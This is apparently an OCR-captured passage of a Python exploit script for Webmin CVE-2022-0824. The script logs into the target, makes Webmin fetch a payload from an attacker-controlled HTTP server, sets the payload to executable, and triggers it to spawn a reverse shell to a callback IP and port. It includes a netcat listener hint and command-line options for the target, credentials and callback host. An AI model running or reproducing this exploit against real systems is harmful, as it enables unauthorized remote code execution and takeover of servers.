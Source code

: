 ```python

        data = { 
                'link': "http://" + self.py3http_server + "/" + self.fname, 
                'username': '', 
                'password': '', 
                'path': self.upload_path 
        }

        r = self.s.post(download_url, data=data, headers=headers, verify=False, allow_redirects=True)
        print(f"\n[+] Fetching {self.fname} from http.server {self.py3http_server}")

    def modify_permission(self):
        modify_perm_url = self.target + "/extensions/file-manager/chmod.cgi?module=filemin&page=1&paginate=30"
        headers = { "Referer": self.target + "/filemin/?xnavigation=1" }
        data = { "name": self.fname, "perms": "0755", "applyto": "1", "path": self.upload_path }
       
        r = self.s.post(modify_perm_url, data=data, headers=headers, verify=False, allow_redirects=True)
        print(f"[+] Modifying permission of {self.fname} to 0755")

    def exec_revshell(self):
        url = self.target + '/' + self.fname
        try:
            r = self.s.get(url, verify=False, allow_redirects=True, timeout=3)
        except requests.Timeout as e: # check target whether make response in 3s, then it indicates shell has been spawned!
            print(TGREEN + f"\n[+] Success: shell spawned to {self.callback_ip} via port {self.callback_port} - XD", ENDC)
            print("[+] Shell location: " + url)
        else:
            print(TRED + f"\n[-] Please setup listener first and try again with: nc -lvp {self.callback_port}", ENDC)

    def do_cleanup(self):
        print(TCYAN + '\n[+] Cleaning up ')
        print(f'[+] Killing: http.server on port {self.pyhttp_port}')
        os.system(f'kill -9 $(lsof -t -i:{self.pyhttp_port})')
        exit()

    def run(self):
        self.gen_payload()
        self.login()
        self.pyhttp_server()
        self.download_remote_url()
        self.modify_permission()
        self.exec_revshell()
        self.do_cleanup()


if __name__ == "__main__":

    parser = argparse.ArgumentParser(description='Webmin CVE-2022-0824 Reverse Shell')
    parser.add_argument('-t', '--target', type=str, required=True, help=' Target full URL, https://www.webmin.local:10000')
    parser.add_argument('-c', '--credential', type=str, required=True, help=' Format, user:user123')
    parser.add_argument('-LS', '--py3http_server', type=str, required=True, help=' Http server for serving payload, ex 192.168.8.120:8080')
    parser.add_argument('-L', '--callback_ip', type=str, required=True, help=' Callback IP to receive revshell')
```